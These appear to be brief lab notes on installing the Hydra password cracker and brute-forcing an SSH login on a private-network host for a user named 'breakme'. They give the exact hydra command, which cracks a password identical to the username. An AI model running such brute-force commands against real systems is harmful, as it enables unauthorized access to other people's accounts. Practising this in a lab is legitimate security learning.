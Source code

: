 #### installation

```
sudo dnf install hydra
```

***

#### bruteforce ssh

This worked:
```
hydra -l breakme -e nsr 192.168.2.172 ssh
```
Password was cracked in 3 tries, but it was the same as the username.

**but it doesnt work when the password is not the same as the username...**

***
